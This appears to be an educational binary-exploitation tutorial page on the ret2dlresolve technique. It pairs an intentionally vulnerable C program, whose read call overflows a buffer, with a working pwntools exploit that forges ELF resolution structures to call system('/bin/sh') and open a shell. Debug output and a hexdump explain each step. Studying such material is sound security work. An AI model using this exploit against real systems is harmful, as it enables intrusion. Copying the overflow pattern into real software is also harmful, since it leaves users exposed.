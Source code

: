# Exploitation

## Source

To display an example program, we will use the example given on the pwntools entry for ret2dlresolve:

```c
#include <unistd.h>
void vuln(void){
    char buf[64];
    read(STDIN_FILENO, buf, 200);
}
int main(int argc, char** argv){
    vuln();
}
```

## Exploitation

pwntools contains a fancy `Ret2dlresolvePayload` that can automate the majority of our exploit:

```python
# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr)             # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)                 # call .plt and dl-resolve() with the correct, calculated reloc_offset

p.sendline(rop.chain())
p.sendline(dlresolve.payload)                # now the read is called and we pass all the relevant structures in
```

Let's use `rop.dump()` to break down what's happening.

```text
[DEBUG] PLT 0x8049030 read
[DEBUG] PLT 0x8049040 __libc_start_main
[DEBUG] Symtab: 0x804820c
[DEBUG] Strtab: 0x804825c
[DEBUG] Versym: 0x80482a6
[DEBUG] Jmprel: 0x80482d8
[DEBUG] ElfSym addr: 0x804ce0c
[DEBUG] ElfRel addr: 0x804ce1c
[DEBUG] Symbol name addr: 0x804ce00
[DEBUG] Version index addr: 0x8048c26
[DEBUG] Data addr: 0x804ce00
[DEBUG] PLT_INIT: 0x8049020
[*] 0x0000:          b'AAAA' 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
    [...]
    0x004c:        0x8049030 read(0, 0x804ce00)
    0x0050:        0x804921a <adjust @0x5c> pop edi; pop ebp; ret
    0x0054:              0x0 arg0
    0x0058:        0x804ce00 arg1
    0x005c:        0x8049020 [plt_init] system(0x804ce24)
    0x0060:           0x4b44 [dlresolve index]
    0x0064:          b'zaab' <return address>
    0x0068:        0x804ce24 arg0
```

As we expected - it's a `read` followed by a call to `plt_init` with the parameter `0x0804ce24`. Our fake structures are being read in at `0x804ce00`. The logging at the top tells us where all the structures are placed.

```text
[DEBUG] ElfSym addr: 0x804ce0c
[DEBUG] ElfRel addr: 0x804ce1c
[DEBUG] Symbol name addr: 0x804ce00
```

Now we know where the fake structures are placed. Since I ran the script with the `DEBUG` parameter, I'll check what gets sent.

```text
00000000  73 79 73 74  65 6d 00 61  63 61 61 61  a4 4b 00 00  │syst│em·a│caaa│·K··│
00000010  00 00 00 00  00 00 00 00  00 00 00 00  00 ce 04 08  │····│····│····│····│
00000020  07 c0 04 00  2f 62 69 6e  2f 73 68 00  0a           │····│/bin│/sh·│·│
0000002d
```

* `system` is being written to `0x804ce00` - as the debug said the `Symbol name addr` would be placed
* After that, at `0x804ce0c`, the `Elf32_Sym` struct starts. First it contains the table index of that string, which in this case is `0x4ba4` as it is a **very** long way off the actual table. Next it contains the other values on the struct, but they are irrelevant and so zeroed out.
* At `0x804ce1c` that `Elf32_Rel` struct starts; first it contains the address of the `system` string, `0x0804ce00`, then the `r_info` variable - if you remember this specifies the `R_SYM`, which is used to link the `SYMTAB` and the `STRTAB`.

After all the structures we place the string `/bin/sh` at `0x804ce24` - which, if you remember, was the argument passed to `system` when we printed the `rop.dump()`:

```text
0x005c:        0x8049020 [plt_init] system(0x804ce24)
```

### Final Exploit

```python
from pwn import *

elf = context.binary = ELF('./vuln', checksec=False)
p = elf.process()
rop = ROP(elf)

# create the dlresolve object
dlresolve = Ret2dlresolvePayload(elf, symbol='system', args=['/bin/sh'])

rop.raw('A' * 76)
rop.read(0, dlresolve.data_addr) # read to where we want to write the fake structures
rop.ret2dlresolve(dlresolve)     # call .plt and dl-resolve() with the correct, calculated reloc_offset

log.info(rop.dump())

p.sendline(rop.chain())
p.sendline(dlresolve.payload)    # now the read is called and we pass all the relevant structures in

p.interactive()
```

